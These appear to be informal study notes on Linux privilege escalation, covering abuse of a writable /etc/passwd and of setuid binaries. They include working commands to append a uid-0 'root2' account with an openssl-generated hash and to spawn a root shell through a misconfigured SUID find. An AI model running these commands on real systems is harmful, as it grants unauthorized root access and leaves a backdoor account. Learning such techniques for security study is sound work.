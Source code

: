 unless AD or LDAP is used passwords for Linux are always in
/etc/shadow

password hashes with other account info are stored in the word-readable
/etc/passwd

if a password hash is present in secon colimn of /etc/passwd user record,it is considered valid for auth and takes precedence over respective entry in /etc/shadow

so if we can write into /etc/passwd we can set arbitrary password

we'll generate a password hash using openssl

openssl passwd lmao (this need to be ran on the target)

echo "root2:<Hash>:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2 (this is to be done on the target as well)



Insecure Systemm Components

Abusing Setuid Binaries and Capabilities

when a user or a system script launches a process it inherits the UID/GID of the initiating script

user passwords are stored as hashes in /etc/shadow which is only writable by root uid=0

effective UID/GID represents the actual value being checked

passwd
changes password of the user

ps u -C passwd
lists all processes and filter for passwd

doing the ps u also shows Uid which let's us do this:

grep Uid /proc/<pid>/status

noramlly the UID should be all 1000

but since passwd needs root to write to etc/shadow it is:
1000 0 0 0

this is the case because passwd has a special flag of Set-User-ID
ls -lsa /usr/bin/passwd:
-rwsr-xr-x

SUID depicted by s, it can be configed using
chmod u+s <filename>
this sets the effective UID of the running process to the exe owner's uid

suppose find program is misconnfiged

find <file> -exec "/usr/bin/bash" -p\;
this exe bin bash after finding the file

Linux capabilities

extra attributes that can be applied to processes, binaries and services to assign specific privileges reserved for admin
